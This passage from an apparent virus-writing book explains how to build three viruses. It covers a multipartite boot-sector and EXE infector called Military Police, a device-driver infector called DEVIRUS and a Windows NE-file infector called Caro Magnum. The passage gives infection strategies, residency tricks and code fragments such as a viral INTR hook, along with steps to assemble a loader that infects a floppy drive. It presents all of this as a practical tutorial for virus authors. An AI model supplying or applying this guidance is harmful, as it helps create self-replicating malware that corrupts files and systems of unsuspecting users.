When the Military Police is loaded into memory from a file, it begins execution at the label START_EXE. You can think of a multi-partite virus as a virus with two different entry points. The entry point it uses depends on what it's attached to. If it is in the boot sector, the entry point is the boot sector at offset 7C00H. If it's attached to an EXE file, the entry point is START_EXE. The first thing it must do is adjust the code and data segments it is using. That's because it is assembled to start at an offset up near where the boot sector starts. If the virus doesn't execute with the proper offset, any absolute address references, like data, will be wrong. The label BBS points to this starting offset, so all one has to do is
mov bx,OFFSET BBS ;calcuate amount to move segment
mov cl,4
shr bx,cl ;amount to subtract is in bx
mov ax,cs
sub ax,bx
to calculate the new segment (in ax). Then one jumps to it by pushing the appropriate addresses and executing a retf.
Once adjusted, the MP checks to see if it is already in memory. Unlike the boot-sector startup, the EXE-launched instance of MP must watch out for this, because the virus may have been loaded from the boot sector already, or it may have been loaded by another EXE which ran previously to it. To test to see if it is already there, MP performs a bogus int 13H call, using ax=7933H. Normally this call does not exist, and will return with carry set. However, if the MP is in memory, the call does exist and it will return with no carry.
If MP is already in memory, then the new instance of it does not need to load. All it does is relocate the starting addresses of the host program, and then jump to it. The new instance of the virus disappears and the host runs normally.
If MP discovers that it is not in memory, it must go resident and run the host program. To go resident, the first thing MP does is copy itself to offset 100H in the PSP. This is accomplished by putting the instructions rep movsb/retf at 0:3FCH in memory. This is the location of the Interrupt 0FFH vector, which isn't used by anything generally. Still, MP is polite and uses it only temporarily, restoring it when finished. Next, MP sets up the stack and the es:di, ds:si and cx registers so that it can call 0:3FCH, get itself moved, and then return to the code immediately following this call. The registers are set up so that MP is still executing at the proper offset. This is a bit messy, but it's straightforward if you're careful about what goes where.
After moving itself, MP has to hook interrupts 21H and 13H, which it does in the usual manner. Next, it checks the hard disk to see if it's infected. If not, it infects it.
The final task of Military Police is to execute the host, and then go resident. Since MP uses Interrupt 21H, Function 31H to go resident, it first EXECs the host, re-loading it and running it, using DOS Function 4BH, which we discussed first when dealing with companion viruses. To EXEC the host, MP must release memory using DOS Function 4AH, setting up a temporary stack for itself above its own code. Next, it finds its own name in the environment. Finally, it performs the EXEC, releases unneeded memory from that, and exits to DOS via the TSR function (31H). From that point on, MP is in memory, waiting there active and ready to infect any diskette placed in a floppy drive, or any file it can find through the search functions.
The Military Police virus uses some of the same modules as the BBS virus. There are two new modules, INT21H.ASM and EXEFILE.ASM, and two of the modules are quite different, INT13H.ASM and BOOT.ASM. You'll also need the FATMAN.ASM, which is the same for BBS and Military Police. To convert the main module BBS.ASM to the Military Police, copy it to MPOLICE.ASM. Then, after the statement
INCLUDE INT13H.ASM
in that module, add two more, so it reads:
INCLUDE INT13H.ASM INCLUDE INT21H.ASM INCLUDE EXEFILE.ASM
Assembling MPOLICE.ASM with all the modules in the current directory will produce MPOLICE.COM, a boot-sector loader which will infect the A: drive with Military Police. To attach it to a file, you must of course boot from the infected disk, wait 30 seconds, and then do a DIR of a directory with some EXE files in it.
The following modules are the source for Military Police.
COM, EXE and boot sector viruses are not the only possibilities for DOS executables. One could also infect SYS files.
Although infecting SYS files is perhaps not that important a vector for propagating viruses, simply because people don't share SYS files the way they do COMs, EXEs and disks, I hope this exercise will be helpful in opening your mind up to the possibilities open to viruses. And certainly there are more than a few viruses out there that do infect device drivers already.
Let's tackle this problem from a little bit different angle: suppose you are a virus writer for the U.S. Army, and you're given the task of creating a SYS-infecting virus, because the enemy's anti-virus has a weakness in this area. How would you go about tackling this job?
The first step in writing a virus when you don't even know anything about the file structure you're trying to infect is to learn about that file structure. You have to know enough about it to be able to:
A typical example of failure to fulfill condition (a) is messing up an EXE header. When a virus modifies an EXE header, it had better do it right, or any one of a variety of problems can occur. For example, the file may not be recognized as an EXE program by DOS, or it may contain an invalid entry point, or the size could be wrong, so that not all of the virus gets loaded into memory prior to execution. A typical example of (b) might be to fail to modify the entry point of the EXE so that the original program continues to execute first, rather than the virus.
So how do you find out about a file structure like this? By and by these kind of things - no matter how obscure - tend to get documented by either the operating system manufacturers or by individual authors who delight in ferreting such information out. If you look around a bit, you can usually find out all you need to know. If you can't find what you need to know, then given a few samples and a computer that will run them, you can usually figureout what's going on by brute force - though I don't recommend that approach if you can at all avoid it.
For DOS structures, The MS-DOS Encyclopedia is a good reference. Likewise, Microsoft's Developer Network 1 will give you all the information you need for things like Windows, Windows NT, etc. IBM, likewise, has a good developer program for OS/2 and the likes.
Anyway, looking up information about SYS files in The MS-DOS Encyclopedia provides all the information we need.
A SYS file is coded as a straight binary program file, very similar to a COM file, except it starts at offset 0 instead of offset 100H. Unlike a COM file, the SYS file must have a very specific structure. It has a header, like an EXE file, though it is coded and assembled as a pure binary file, more like a COM file. It's kind of like coding an EXE program by putting a bunch of DB's at the start of it to define the EXE header, and then assembling it as a COM file, rather than letting the assembler and linker create the EXE header automatically.2
Figure 14.1 illustrates a simple device driver called (creatively enough) DEVICE, which does practically nothing. All it does is display a "hello" message on the screen when it starts up. It does, however, illustrate the basic design of a device driver.
The next important question one must answer when building a virus like this is "What system facilities will be available when the code is up and running?" In the case of device driver viruses, this question is non-trivial simply because DOS has only partially loaded when the device driver executes for the first time. Not all of the DOS functions which an ordinary application program can call are available yet.
In the case of DOS device drivers, what will and will not work is fairly well documented, both by Microsoft in the references mentioned above, and in other places, like some of the books on DOS device drivers mentioned in the bibliography.
Remember that you can always assume that a particular system function is available at some low level, and program assuming that it is. Then, of course, if it is not, your program simply will not work, and you'll have to go back to the drawing board.
For our purposes, a virus must be able to open and close files, and read and write to them. The handle-based functions to perform these operations are all available.
;DEVICE.ASM is a simple device driver to illustrate the structure of
;a device driver. All it does is announce its presence when loaded.
;(C) 1995 American Eagle Publications, Inc., All rights reserved.
.model tiny
.code
ORG 0
HEADER:
dd -1 ;Link to next device driver
dw 0C840H ;Device attribute word
dw OFFSET STRAT ;Pointer to strategy routine
dw OFFSET INTR ;Pointer to interrupt routine
db 'DEVICE' ;Device name
RHPTR dd ? ;pointer to request header, filled in by DOS
;This is the strategy routine. Typically it just takes the value passed to it
;in es:bx and stores it at RHPTR for use by the INTR procedure. This value is
;the pointer to the request header, which the device uses to determine what is
;being asked of it.
STRAT:
mov WORD PTR cs:[RHPTR],bx
mov WORD PTR cs:[RHPTR+2],es
retf
;This is the interrupt routine. It's called by DOS to tell the device driver
;to do something. Typical calls include reading or writing to a device,
;opening it, closing it, etc.
INTR:
push bx
push si
push di
push ds
push es
push cs
pop ds
les di,[RHPTR] ;es:di points to request header
mov al,es:[di+2] ;get command number
or al,al ;command number 0? (Initialize device)
jnz INTR1 ;nope, handle other commands
call INIT ;yes, go initialize device
jmp INTRX ;and exit INTR routine
INTR1: call NOT_IMPLEMENTED ;all other commands not implemented
INTRX: pop es
pop ds
pop di
pop si
pop bx
retf
;Device initialization routine, Function 0. This just displays HELLO_MSG using
;BIOS video and then exits.
INIT:
mov si,OFFSET HELLO_MSG
INITLP: lodsb
or al,al
jz INITX
mov ah,0EH
int 10H
jmp INITLP
INITX: mov WORD PTR es:[di+14],OFFSET END_DRIVER
mov WORD PTR es:[di+16],cs ;indicate end of driver here
xor ax,ax ;zero ax to indicate success and exit
retn
HELLO_MSG DB 'DEVICE 1.00 Says "Hello!"',0DH,0AH,0
;This routine is used for all non-implemented functions.
NOT_IMPLEMENTED:
xor ax,ax ;zero ax to indicate success and exit
retn
END_DRIVER: ;label to identify end of device driver
END STRAT
Figure 14.1: A simple device driver DEVICE.ASM.
Finally, to create a virus for some new kind of executable file, one must come up with an infection strategy. How can a piece of code be attached to a device driver (or whatever) so that it can function and replicate, yet allow the original host to execute properly?
Answering this question is where creativity comes into play. I have yet to see a file structure or executable structure where this was not possible, provided there weren't problems with Step One or Step Two above. Obviously, if there is no way to write to another file, a virus can't infect it. Given sufficient functionality, though, it's merely a matter of figuring out a plan of attack.
As far as device drivers go, unlike ordinary COM and EXE files, they have two entry points. Essentially, that means it has two different places where it can start execution. These are called the STRAT, or Strategy, routine, and the INTR, or Interrupt routine. Both are coded as subroutines which are called with a far call, and which terminate with the retf instruction. The entry points for these routines are contained in the header for the device driver, detailed in Figure 14.2.
Because it has two entry points, the device driver can potentially be infected in either the STRAT routine, the INTR routine, or both. To understand the infection process a little better, it would help to understand the purpose of the STRAT and INTR routines.
The INTR routine performs the great bulk of the work in the device driver, and it takes up the main body of the driver. It must be programmed to handle a number of different functions which are characteristic of device drivers. These include initializing the device, opening and closing it, reading from and writing to it, as well as checking its status. We won't bother will all the details of what all these functions should do, because they're irrelevant to viruses for the most part - just as what the host program does is irrelevant to a virus which is attacking it. However, when DOS wants to perform any of these functions, it calls the device driver after having passed it a data structure called the Request Header. The Request Header contains the command number to execute, along with any other data which will be needed by that function. (For example, a read function will also need to know where to put the data it reads.) This Request Header is merely stored at some location in memory, which is chosen by DOS.
To let the device driver know where the Request Header is located, DOS first calls the STRAT routine, and passes it the address of the Request Header in es:bx. The STRAT routine stores this address internally in the device driver, where it can later be accessed by the various functions inside the INTR routine as it is needed. Thus, the STRAT routine is typically called first (maybe only once), and then the INTR routine is called to perform the various desired functions.
A device driver virus could infect either the STRAT routine, or the INTR routine, and it could even filter one specific function in the INTR routine. In fact, it will probably want to filter one function. Some device drivers get called so often that if it doesn't restrict itself, a virus will gobble up huge amounts of time searching for files, etc., when all that the original driver wants to do is output a character or something like that.
| Offset | Size | Description |
|---|---|---|
| 0 | 4 | Pointer to next device driver. This data area is used by DOS to locate device drivers in memory and should be coded to the value 0FFFFFFFF = -1 in the program. |
| 4 | 2 | Device attribute flags. Coded to tell DOS what kind of a device driver it is dealing with and what functions it supports. |
| 6 | 2 | STRAT routine entry point offset. |
| 8 | 2 | INTR routine entry point offset. |
| 10 | 8 | Device name. |
Figure 14.2: The device driver header.
The virus we will discuss here, DEVIRUS, infects the STRAT routine. It simply adds itself to the end of the device driver, and redirects the pointer to the STRAT routine to itself. When it's done executing, it just jumps to the old STRAT routine. After it's executed, it also removes itself from the STRAT routine in memory so that if the STRAT routine gets called again, the virus is gone. The virus will not execute again until that device is re-loaded from disk.
One could easily design a virus to infect the INTR routine instead. Typically, when a device driver is loaded, DOS calls the STRAT routine and then directly calls the INTR routine with Function 0: Initialize device. Part of the initialization includes reporting back to DOS how much memory the device driver needs. This is reported in the Request Header as a segment:offset of the top of the device at offset 14 in the header. If such a virus does not want to remain resident, it must hook this Function 0, and make sure it is above the segment:offset reported in the Request Header. A virus that adds itself to the end of the device driver, and does not modify the segment:offset reported back to DOS will accomplish this quite naturally. It must, however, restore the pointer to INTR in the device header, or else the virus will get called after it's been removed from memory - resulting in a sure-fire system crash.
If an INTR-infecting virus wants to remain resident, it will typically hook Function 0, and modify the segment:offset reported back to DOS. It can do this by calling the real INTR routine (which will put one thing in the Request Header) and then re-modify the Request Header to its liking. This is a neat way to go memory resident without using the usual DOS functions or manipulating the memory structures directly. Typical code for such a virus' INTR hook might look like this:
VIRAL_INTR:
push di
push ds
push es
push cs
pop ds
les di,[RHPTR]
mov al,es:[di+2] ;get function code
or al,al ;zero?
jz DO_OLD_INTR
push cs ;make far call to
call [OLD_INTR] ;old INTR routine
mov WORD PTR es:[di+14],OFFSET END_VIRUS
mov WORD PTR es:[di+16],cs ;set up proper end
pop es
pop ds
pop di
retf ;and return to DOS
DO_OLD_INTR:
pop es
pop ds
pop di
jmp [OLD_INTR]
OLD_INTR DW OFFSET INTR
Figure 14.3: The logic of DEVIRUS.
Figure 14.4: The action of DEVIRUS on a .SYS file.
Given a workable infection strategy, the only thing left is to decide how you want the virus to behave. Do you want it to infect a single file when it executes, or do you want it to infect every file in the computer? Then program it to do what you want.
The DEVIRUS virus operates by opening the CONFIG.SYS file and reading it line by line to find commands of the form
device=XXXXXX.XXX ABC DEF
Once such a command is found, it will truncate off the "device=" as well as any parameters passed to the device, and make the name of the device into an ASCIIZ string. Then it will open the device, test to see if it's already infected, and if not, infect it.
To determine whether or not a file is infected, DEVIRUS opens it and finds the STRAT routine from the header. It then goes to that offset and reads 10 bytes into a buffer. These 10 bytes are compared with the first 10 bytes of the virus itself. If they are the same, DEVIRUS assumes it has already infected that file.
At the same time that it checks for a previous infection, DEVIRUS makes sure that this device driver is of the binary format, and not the EXE format. It does that by simply checking the first two bytes for "MZ" - the usual EXE header ID bytes. If these are found, the virus simply ignores the file.
The infection process itself is relatively simple, involving only two writes. First, DEVIRUS finds the end of the host file and uses that as the offset for the new STRAT routine, writing this value into the header. Next it hides the address of the old STRAT routine internally in itself at STRJMP, and then writes the body of its code to the end of the SYS file. That's all there is to it. The logic of DEVIRUS is depicted in Figure 14.3, and its action on a typical SYS file is depicted in Figure 14.4.
Note that since a device driver is a pure binary file, all absolute memory references (e.g. to data) must be coded to be offset relocatable, just as they were with COM files. Without that, all data references will be wrong after the first infection.
Most assemblers don't provide the needed facilities to assemble a file directly into a device driver .SYS file. Typically, one writes a device driver by defining it with the tiny model and then an ORG 0 statement to start the code. The header is simply hard-coded, followed by the STRAT and INTR routines.
Once properly coded, the driver can be assembled into an EXE file with the assembler. Typically the assembler will issue a "no stack" warning which you can safely ignore. (Device drivers don't have a stack of their own.) Next, it can be converted to a binary using the EXE2BIN program, or using DEBUG. To create a file DEVICE.SYS out of DEVICE.EXE using DEBUG, the following commands are needed:
C:\DEBUG DEVICE.EXE -nDEVICE.SYS -w100 -q
Simple enough!
The following source can be assembled by TASM or MASM into an EXE file. If you must use A86, good luck, it doesn't much care for doing device driver work. Then turn it into a device driver using the above instructions. Be careful, it will infect all of the SYS files mentioned in CONFIG.SYS as soon as it is executed!
When it comes to viruses, Microsoft Windows is a whole new world. Many aspects of Windows are radically different than DOS. Yet others are reassuringly familiar. There are certainly some aspects of Windows that make writing a virus much easier. For example, the EXE file contains a lot more documentation about how the file is structured which the virus canuse.On theother hand, writing Windows code in pure assembler is somewhat of a black art. I can't say that I've ever seen it discussed anywhere, except in the MASM documentation, and that is such an obscure and tangled mess that I'm convinced it is little more than a technical attempt to frighten programmers away.
None the less, it's just not that hard to write Windows assembler programs, and some of the things you can do once you start breaking the "good programming rules" are just plain fun.
The first step in building a Windows infector is, of course, to understand the Windows EXE structure. The header for Windows is a lot more complicated than the DOS EXE header. Yet the added complication makes it possible for a virus to understand the structure and operation of a Windows EXE much better than it could a DOS program. For example, it is easy to see how a program is segmented under Windows. Under DOS, that is practically impossible short of running the program through a disassembler. So the added complication of the header actually turns out to be an advantage to the curious in the end.
A Windows EXE actually has two headers, because it must be backward-compatible with DOS. In fact, it is really two programs in one file, a DOS program and a Windows program. In every file there is a DOS header and a DOS program to go with it. Usually that program just tells you "This is a Windows program", but it could be anything.
There is a simple trick to determine whether an EXE is for DOS or Windows: At offset 18H in the DOS header is a pointer to the beginning of the relocation table for the DOS program. If this offset is 40H Header, Windows, offset of or greater, then you have a Windows program, and the word at offset 3CH in the header is a pointer to the New Header for Windows. Typically, this New Header resides after the DOS program in the file. (Incidentally, that's why many DOS viruses will destroy a Windows EXE when they infect it. To be polite, a DOS virus should check for the presence of a new header and adjust its actions accordingly. Simply appending to the end of the DOS program can overwrite the New Header.)
The New Header, detailed in Table 15.1, consists of several different data structures. These are designed to tell the operating system how to load the file in a protected-mode environment which supports dynamic linking. Protected mode forces one to control segmentation a little more carefully. One cannot simply mix a bunch of code and data segments together in a chunk of binary code and execute it. Segments are defined by selectors which are given to the program by the operating system. As such, the segments must be kept separated in the file in a way that the operating system can understand. Likewise, dynamic linking requires names to be stored in the EXE - names of Dynamic Link Libraries (DLLs) and names of imported and exported functions and variables.
The structures we need to be concerned with are the 64-byte Information Block which forms the core of the header, the Segment Table, which tells where all the segments in the file are located, and what their function is (code or data, etc.), and the Resource Table, which tells where resources (e.g. cursors, icons, dialog boxes) are located in the file.
| Offset | Size | Name | Description | ||||||||||||
|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|
| 0 | 2 bytes | Signature | Identifies New Header, always contains the bytes "NE" | ||||||||||||
| 2 | 1 | Linker Version | Identifies the liner that linked the EXE | ||||||||||||
| 3 | 1 | Linker Revision | Minor version number of linker | ||||||||||||
| 4 | 2 | Entry Table Offset | Offset of Entry Table, relative to start of new header | ||||||||||||
| 6 | 2 | Entry Table Length | Length of Entry Table, in bytes | ||||||||||||
| 8 | 4 | Reserved | |||||||||||||
| 0C | 2 | Flags |
| ||||||||||||
| 0E | 2 | Auto Data Segment | Specifies automatic data segment number | ||||||||||||
| 10 | 2 | Local Heap Size | Initial local heap size, in bytes | ||||||||||||
| 12 | 2 | Stack Size | Initial stack size, in bytes | ||||||||||||
| 14 | 2 | Initial IP | Initial entry point offset | ||||||||||||
| 16 | 2 | Initial CS | Initial cs - index to segment table | ||||||||||||
| 18 | 2 | Initial SP | Initial sp for program | ||||||||||||
| 1A | 2 | Initial SS | Initial ss - index to Segment Table | ||||||||||||
| 1C | 2 | Seg Table Entries | Number of entries in Segment Table | ||||||||||||
| 1E | 2 | Mod Ref Tbl Ents | Number of entries in Module Reference Table | ||||||||||||
| 20 | 2 | Mod Nm Tbl Ents | Number of entries in Module Name Table | ||||||||||||
| 22 | 2 | Seg Table Offset | Offset to Segment Table, from start of New Header | ||||||||||||
| 24 | 2 | Resrc Tbl Offset | Offset to Resource Table, from start of NH | ||||||||||||
| 26 | 2 | Res Nm Tbl Offs | Offset to Resident Name Table, from start of New Header | ||||||||||||
| 28 | 2 | Mod Ref Tbl Offs | Offset to Module Reference Table | ||||||||||||
| 2A | 2 | Imp Nm Tbl Offs | Offset to Imported Name Table | ||||||||||||
| 2C | 4 | Nrs Nm Tbl Offs | Offset to Non-Resident Name Table from beginning of file, in bytes | ||||||||||||
| 30 | 2 | Mov Entry Pts | Number of moveable entry points | ||||||||||||
| 32 | 2 | Seg Alignment | Log base 2 of segment sector size Default is 9 = 512 byte logical sectors | ||||||||||||
| 34 | 2 | Resource Segs | Number of resource segments | ||||||||||||
| 36 | 1 | Op Sys | Indicates what operating system this file is for (1=OS/2, 2=Windows) | ||||||||||||
| 37 | 1 | Flags2 |
| ||||||||||||
| 38 | 2 | Fast Load Start | Specifies start of fast load area (segs) | ||||||||||||
| 3A | 2 | Fast Load End | Specifies end of fast load area | ||||||||||||
| 3C | 2 | Reserved | |||||||||||||
| 3E | 2 | Version No | Specifies Windows version number |
Table 15.1: The New Header for Windows EXEs.
| Offset | Size | Name | Description | ||||||||||||||||
|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|
| 0 | 2 | Offset | Location of segment in file (logical sectors from start of file) | ||||||||||||||||
| 2 | 2 | Size | Segment size, in bytes | ||||||||||||||||
| 4 | 2 | Attr | Segment attribute
| ||||||||||||||||
| 6 | 2 | Alloc | Minimum allocation size of seg, in bytes (0=64K) |
| Offset | Size | Description |
|---|---|---|
| 0 | 1 | Size of string to follow (X=size, 0=no more strings) |
| 1 | X | ASCII name string of resident name |
| X+1 | 2 | A number, which is an index into the Entry Table which is associated with the name |
(Identical in structure to Resident Name Table)
This table is organized in bundles, the bundle header looks like this:
| Offset | Size | Name | Description |
|---|---|---|---|
| 0 | 1 | Count | Number of entries in this bundle |
| 1 | 1 | Type | Bundle type (FF=Moveable segment, FE=constant defined in module, else, fixed segment number) |
And the individual entries in the bundle look like this:
| Offset | Size | Name | Description | ||||||||
|---|---|---|---|---|---|---|---|---|---|---|---|
| 0 | 1 | Flags |
| ||||||||
| For Fixed Segments: | |||||||||||
| 1 | 2 | Offset | Offset in segment of entry point | ||||||||
| For Moveable Segments: | |||||||||||
| 1 | 2 | INT 3F | This is simply an Int 3F instruction | ||||||||
| 3 | 2 | Segment | Segment Number | ||||||||
| 5 | 2 | Offset | Offset in segment of entry point | ||||||||
This table is an array of offsets for module names stored in the Module Name Table and other name tables. Each is 2 bytes, and refers to an offset from the start of the New Header.
| Offset | Size | Description |
|---|---|---|
| 0 | 1 | Size of string to follow (X=size, 0=No more strings) |
| 1 | X | ASCII string of imported name |
| Offset | Size | Description |
|---|---|---|
| 0 | 2 | Resource alignment: log2 of logical sector size to find resources in file |
| 2 | N(Var) | Resource types: an array of resource data, described below |
| N+2 | 2 | End of resource types (must be 0) |
| N+4 | M | Resource names corresponding to resources in the table, stored consecutively, where the first byte specifies the size of the string to follow (like in the Imported Name Table) |
| N+M+4 | 1 | End of resource names marker (must be 0) |
| Offset | Size | Name | Description |
|---|---|---|---|
| 0 | 2 | Type ID | One value is an icon, another a menu, etc. |
| 2 | 2 | Cnt | Number of resources of this type in the executable |
| 4 | 4 | Reserved | |
| 8 | 12*Cnt | Name Info | An array of Name Info structures, defined below |
| Offset | Size | Name | Description |
|---|---|---|---|
| 0 | 2 | Offset | Offset to resource data (in logical secs) |
| 2 | 2 | Length | Resource length, in bytes |
| 4 | 2 | Flags | 10H=Moveable, 20H=Shared, 40H=Preload |
| 6 | 2 | ID | If high bit set, it is a numerical ID, else an offset to a string in the Resource Table, relative to beginning of that table |
| 8 | 4 | Reserved |
Table 14.1: New Header auxiliary structures.
In this chapter, we'll discuss the Caro Magnum virus. It is designedmuch like a traditional DOS virus in as much as it executes first, before the host to which it is attached. To do that, the virus looks up the initial cs:ip for the program, which is stored in the Information Block at offset 14H. The cs entry is a segment number (e.g. 1, 2, 3) which is an index into the Segment Table. The ip identifies the offset in the segment where execution begins. The Segment Table consists of an array of 8 byte records, one for each segment in the file. One looks up the appropriate table entry to find where the segment is located and how long it is. This process is detailed in Figure 15.1. Once it's performed these look-ups, the virus can append itself after the code in that segment and adjust the initial cs:ip in the Information Block. It must also adjust the size of this segment in the Segment Table.
Now the initial code segment is not generally the last segment in the EXE file. Just writing the virus at the end of this segment will overwrite code in other segments. Thus, the virus must first move everything after the initial code segment out to make room for the virus. One must also coordinate rearranging the file with the pointers in the Segment Table and the Resource Table. To do this one must scan both tables and adjust the offsets of every segment and resource which is located after the initial code segment.
In addition to moving segments, the virus must also move the relocation data in the segment it is infecting. In a Windows EXE, relocation data for each segment is stored after the code in that segment. The size in the Segment Table entry is the size of the actual code. A flag in the table entry indicates the presence of relocation data. Then, the word after the last byte of code in the segment tells how many 8-byte relocation vectors follow it. (Figure 15.2) Thus, the virus must move this relocation data from the end of the host's code to where its own code will end before inserting itself in the segment.
Once all this shuffling and table-adjusting is done, the virus can put its own code in place. The final step is to put a jump in the virus inthe file which willtransfercontrol to theoriginalentry point once the virus is done executing.
One added factor of complication is that all file locations for segments and resources are stored in terms of logical sectors. These sectors have nothing to do with disk sectors. They are rather just a way of being able to use a single word to locate things in a file which may be larger than 64K in length. This sector size is typically either 16 or 512 bytes, but it can be 2N where N is stored in the Information Block at offset 32H. The virusmust be able to calculate locations in the file dynamically, using these sectors.
Figure 15.1: Finding the starting code segment.
Most of the usual DOS Interrupt 21H services are available under Windows, including everything needed to write a Windows virus: the usual file i/o and file search routines. Calls to the Windows Application Program Interface (API) are, strictly speaking, unnecessary. This makes it possible to write a virus that will jump from a DOS-based program to a Windows-based program with little difficulty, and it means you don't have to understand the Windows API to write one. The Caro Magnum, however, uses the API. It is a more "windowsy" virus, which calls the Windows API directly. That's perhaps a better way to go in the long run because some of those underlying DOS services are very poorly documented - and besides, they could go away with Windows 95.
Figure 15.2: Relocation data in a segment.
The Windows API is real easy to use in a high level language like C++, when you've got all the right include files, etc., etc., to make the job easy. Using it in assembler is a whole different ballgame. Let me illustrate: In DOS, if you wanted to open a file, you used something like
mov ax,3D02H
mov dx,OFFSET FNAME
int 21H
You could still use this call when running in protected mode Windows, and it would work, but that's the easy way out. To use the Windows API, one would call the Windows function _lopen instead. Now, the _lopen function, as documented in the Software Development Kit for Windows, is declared like this:
HFILE _lopen(lpszFileName,fnOpenMode)
That is, of course, how it looks in the C language. But how should the call look in assembler?? To find out, we must do a little digging. The first place to start looking is in the WINDOWS.H file provided with the SDK, or with Borland C++. (I use the SDK.) In it, you can use your word processor to search for the definitions above, until you get down to a sufficiently low level that you can code it in assembler. For example, in WINDOWS.H, you'll find the function prototype
HFILE WINAPI _lopen(LPCSTR,int)
Using this, you can look up all the code names like HFILE, WINAPI and LPCSTR. Substituting them in, you get
int far pascal _lopen(char FAR*, int)
In other words, _lopen receives two parameters, a far pointer to the file name, and an integer, which specifies the mode to open the file in. It is a procedure called with a far call using the Pascal calling convention, and it returns an integer value. The virus wants to open the file in READ_WRITE mode. Again looking that up in WINDOWS.H, you find READ_WRITE = 2.
The Pascal calling convention deserves some discussion since it is used everywhere in Windows. This convention merely tells one how to pass parameters to a function and get them back, and how to clean up the stack when you're done. It is called "Pascal" only because, historically, this approach was used by Pascal compilers, and a different approach was used by C compilers.
In the Pascal calling convention, one pushes parameters onto the stack from left to right. Thus, suppose ds:dx contained a far pointer (selector:offset) to the file name. Then we could write a call to _lopen as
push ds ;push file name @ segment
push dx ;push file name @ offset
push 2 ;push file open mode
call FAR PTR _lopen
Note that we are using 80286 and up assembly language instructions here, so we can push an immediate value onto the stack.
Next, the Pascal calling convention says that it is the function being called's responsibility to clean up the stack when it is done. Thus, _lopen must terminate with a retf 6 instruction, and the caller does not have to mess withthe stack. Finally, an integer return value is passed to the caller in the ax register. In this case it will be the handle of the file we just opened, provided the _lopen was successful. If unsuccessful, ax will be NULL (or zero).
Table 15.2: Relocation Table entry for an Imported Ordinal.
| Offset | Size | Value | Meaning |
| 0 | BYTE | 3 | Identify a 32 bit pointer |
| 1 | BYTE | 1 | Identify an imported ordinal |
| 2 | WORD | OFS REL1 | Location of relocatable in the file |
| 4 | WORD | MOD REF | Tell which module the relocatable references |
| 6 | WORD | FUNC REF | Tell which function the relocatable references |
But wait a minute! Remember that _lopen is external to the program. How can we compile and link an external value into our executable? We can't just leave that naked call sitting there like that. And where is _lopen anyway? All of this leads us back to the dynamic linking process. A dynamic link is needed to make our call work! Now in an ordinary program that you just compile and link, the linker takes care of the details for you by linking in the library LIBW.LIB. LIBW.LIB contains the code to make dynamic links to the Windows API functions. A virus, however, must modify an existing executable. Therefore it has to do its job without the benefit ofLIBW.LIB.That makes life alittlemore troublesome. We have to understand what is happening at a more fundamental level.
As it turns out, all of our file i/o functions are part of the KERNEL module (which goes by different file names, KRNL386.EXE, KRNL286.EXE, etc.). KERNEL is really just a big DLL of Windows API functions. To code them into a program, one must code a dummy far call to 0:FFFF (which is just a value that the dynamic linking mechanism uses internally):
DB 09AH ;call FAR PTR
REL1: DW 0FFFFH,0 ;0000:FFFF
and then put an entry in the relocation table in this segment so that the Windows Exec function can put the right value at REL1 when the file is loaded into memory. The relocation table, as you will recall, is an array of 8-byte structures which sits right after the code in any given segment. Basically, we are interested in creating an imported ordinal. For an imported ordinal, we want the relocatable to take the form described in Table 15.2.
The module reference is file-dependent, and must be calculated from the EXE header. For example, we are interested in accessing the module KERNEL. To find out what number is associated with it, we must step through the Module-Reference Table in the header, and use it to examine the strings in the Imported-Name Table. (See Figure 15.3) The Module-Reference Table entry number which points to the string `KERNEL' is the proper number to use in the relocation table entry. Now, a short-cut is possible here. Though it is not quite kosher, you will find that KERNEL = 1 works with most programs. That's because just about every program uses KERNEL lots. Thus it is usually the first thing needed by any program, and the linker puts it first in the Module-Reference Table. Caro Magnum takes the more painstaking approach and searches the table.
Figure 15.3: Looking up KERNEL.
Next comes the function reference. This value is defined by KRNL386.EXE itself, and it remains a constant for every program that uses KERNEL. Associating the numerical function reference with the name _lopen is a bit of a trick. Basically, this is done by scanning through the Non-Resident Name Table in KRNL386.EXE. Each name in that table is associated to a unique number. And that's the number you want to use. You can write a little utility program to display that information for you. For the file i/o functions we're interested in, the relevant numbers are
_lopen 85 _lread 82 _lwrite 86 _lclose 81 _llseek 84
Thus, a complete relocation table entry for a call to _lopen will look like this:
DB 3,1 ;imported ordinal, 32 bit ptr
DW OFFSET REL1 ;offset of pointer to relocate
DW 1 ;KERNEL module
DW 85 ;_lopen function
Now, obviously, if you have lots of calls to reads and writes in the program, you're going to have lots of relocatables. Since each relocatable takes time to put in place, it's usually better to code the reads and writes as calls to a single local function which calls the KERNEL. In this way, all the file i/o we need can be done with only five relocatables.
Caro Magnum implements a relocation table manager which can be easily added to, simply by increasing the size of the ARELOCS variable and adding more entries to the table right after it.
Note that when the virus is copying itself to a file, it must watch out for these relocatables. Since the dynamic linker changed the values in memory when the virus was loaded, the virus must change them back to 0000:FFFF before copying them to the new file. If it didn't, you would be left with a program that could no longer be loaded and executed.
Since Caro Magnum must operate in protected mode under Windows, special attention must be paid to code and data segments. This is especially important when writing the actual virus code to disk. For example, the DOS Write function 40H writes data from ds:dx to the disk. However the virus code resides in cs, and you can't just move cs into ds, or a general protection fault will occur. The same considerations apply to Windows API functions. So the virus must get its code into a disk i/o buffer in a data segment and then write its code from that buffer to disk.
In protected mode, segment registers don't contain addresses anymore. Instead, they contain selectors. Selectors are pointers to a descriptor table, which contains the actual linear addresses of a segment. This extra level of complication is managed by the microprocessor hardware itself. Typically, selectors have values like 8, 16, 24, etc., but when you address a segment with ds=8, the processor looks that selector up in the descriptor table to find out where to get what you want. It adds in the offset, and sets up the address lines accordingly. Selectors are normally assigned and maintained by the operating system. You can't just set ds=32 and try to do something with it. All you'll probably get is a General Protection Fault. Instead, if a program wants a new data segment, it must ask the operating system for it and the operating system will return a selector value that can be used in ds, etc.
There are three ways in which a virus can overcome this difficulty. One is to use the stack to save data on. In this approach, the virus creates a temporary data area for itself, much like a c function would, accessing it with the bp index register. Next, a program could create a new data selector and set its base address to the same address as the current code selector. Thirdly, it could simply create a new data segment. This last approach is how Caro Magnum handles the problem.
Caro Magnum allocates memory for its own private data segment using the DOS Protected Mode Interface (DPMI). One could call Windows API functions to do the same thing, but introducing the DPMI is worthwhile at this point. The primary advantage of using DPMI calls is that we reduce the number of relocatables which must be put in the Relocation Table. DPMI is called with interrupts, so relocatables are not necessary, unlike API calls.
